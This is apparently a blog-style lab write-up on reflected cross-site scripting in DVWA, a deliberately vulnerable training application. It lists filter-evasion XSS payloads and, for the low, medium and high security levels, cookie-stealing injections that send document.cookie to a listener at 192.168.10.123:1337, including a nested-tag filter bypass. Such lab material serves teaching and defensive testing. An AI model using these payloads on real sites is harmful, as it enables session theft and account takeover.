 ```yaml
---
title: "Reflected XSS"
date: 2024-12-24T16:06:04+01:00
draft: false
tags: ["DVWA", "Firefox", "Proxy", "Security"]
categories: ["Web"]
---
```


Reflected XSS is an injection attack where malicious scripts are sent to a vulnerable web server (often via URLs), and the server immediately includes (reflects) those scripts unsanitized in the HTML response back to the victim's browser, which then executes them. It relies on the server reflecting user input directly into the response page.

Examples:
```
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```
```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
```
<a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a>
```
```
<IMG SRC=# onmouseover="alert('xxs')">
```
```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

DVWA has 3 settings to show different levels of security. Below are the bypasses for each level.

Low:

```
<script>alert(document.cookie)</script>
```

![1](1.png)

```
192.168.10.123/dvwa/vulnerabilities/xss_r/?name=<script>window.location='http://192.168.10.123:1337/?cookie=' + document.cookie</script>
```

![2](2.png)

Medium:

The developer has tried to add a simple pattern matching to remove any references to "script, to disable any JavaScript.

```
<IMG SRC=# onmouseover="alert(document.cookie">
```
![3](3.png)

```
<sc<script>ript>window.location='http://192.168.10.123:1337/?cookie=' + document.cookie</script>
```

![4](4.png)


High:

```
<IMG SRC=# onmouseover=window.location='http://192.168.10.123:1337/?cookie=' + document.cookie> 
```	
This didn't show cookie.

![5](5.png)

References:

https://owasp.org/www-community/attacks/xss/ 

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

https://en.wikipedia.org/wiki/Cross-site_scripting

https://www.cgisecurity.com/xss-faq.html

https://www.scriptalert1.com/

https://portswigger.net/web-security/cross-site-scripting/reflected
